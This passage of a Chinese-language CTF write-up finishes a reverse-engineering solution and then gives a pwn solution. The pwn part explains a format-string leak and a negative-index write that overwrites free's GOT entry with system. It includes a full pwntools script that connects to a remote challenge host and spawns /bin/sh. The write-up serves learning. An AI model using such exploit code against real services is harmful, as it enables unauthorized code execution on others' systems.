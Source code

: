 得到路径：`468912723481342575971422657913948591537428763345261`  
没有在线环境的话，本地去重搓个暴力求解器也很快的（  

![picture 2](images/66886487ef2e7b9aa3c38de7a17d6a1639b0c72e3780a0f3489f1549f7037e82.png)  

丢进去就可以拿到flag  

其他解法：  
线性约束，丢给Z3或者angr也能解，这里就不试了。  


## Pwn
### easy_LzhiFTP_CHELL
开局一个格式化字符串，刚好够拿到一个地址  
编辑时候可以负向越界到上边的文件名bss  
然后再编辑内容时候就会作为指针修改，可以修改free_got为system_plt  
```python
from pwn import *

elf = ELF('easy_LzhiFTP')
free_got = elf.got['free']
system_plt = elf.plt['system']

# context.log_level = 'debug'
# p = process('easy_LzhiFTP')
p = remote("39.106.65.236", 38987)
p.sendafter(b'name', b'x')
p.sendafter(b'word', b'r')
p.sendafter(b'(yes/No)', f'No%19$p'.encode())
_ = p.recvuntil(b'No')
leak_base = int(p.recvline().strip(), 16) - 0x1d29
print(hex(leak_base))

p.sendlineafter(b'> ', b'touch ' + p64(free_got + leak_base)[:-1])
p.sendafter(b'Context:', b'***')

p.sendlineafter(b'> ', b'edit')
# gdb.attach(p)
p.sendafter(b'idx:', b'-16')
p.sendafter(b'Content: ', p64(system_plt + leak_base))

p.sendlineafter(b'> ', b'touch /bin/sh')
p.sendafter(b'Context:', b'/bin/sh')
p.sendlineafter(b'> ', b'del')
p.sendafter(b'idx:', b'1')
p.interactive()
```

